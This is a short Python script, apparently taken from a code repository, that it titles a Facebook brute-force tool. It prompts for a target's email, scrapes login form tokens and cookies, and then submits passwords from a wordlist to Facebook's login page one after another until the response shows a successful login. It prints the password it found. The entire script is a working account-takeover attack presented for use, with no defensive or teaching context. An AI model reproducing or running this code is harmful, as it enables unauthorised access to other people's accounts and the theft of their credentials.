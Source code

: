 import requests
import threading
# import urllib.request
# import os
from bs4 import BeautifulSoup
import sys

if sys.version_info[0] !=3: 
	print('''--------------------------------------
	REQUIRED PYTHON 3.x
	use: python3 fb.py
--------------------------------------
			''')
	sys.exit()

post_url='https://www.facebook.com/login.php'
headers = {
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36',
}
payload={}
cookie={}

def create_form():
	form=dict()
	cookie={'fr':'0ZvhC3YwYm63ZZat1..Ba0Ipu.Io.AAA.0.0.Ba0Ipu.AWUPqDLy'}

	data=requests.get(post_url,headers=headers)
	for i in data.cookies:
		cookie[i.name]=i.value
	data=BeautifulSoup(data.text,'html.parser').form
	if data.input['name']=='lsd':
		form['lsd']=data.input['value']
	return (form,cookie)

def function(email,passw,i):
	global payload,cookie
	if i%10==1:
		payload,cookie=create_form()
		payload['email']=email
	payload['pass']=passw
	r=requests.post(post_url,data=payload,cookies=cookie,headers=headers)
	if 'Find Friends' in r.text:
		open('temp','w').write(str(r.content))
		print('\npassword is : ',passw)
		return True
	return False

print('\n---------- Welcome To Facebook BruteForce ----------\n')
file=open('passwords.txt','r')

email=input('Enter Email/Username : ')

print("\nTarget Email ID : ",email)
print("\nTrying Passwords from list ...")

i=0
while file:
	passw=file.readline().strip()
	i+=1
	print(str(i) +" : ",passw)
	if function(email,passw,i):
		break
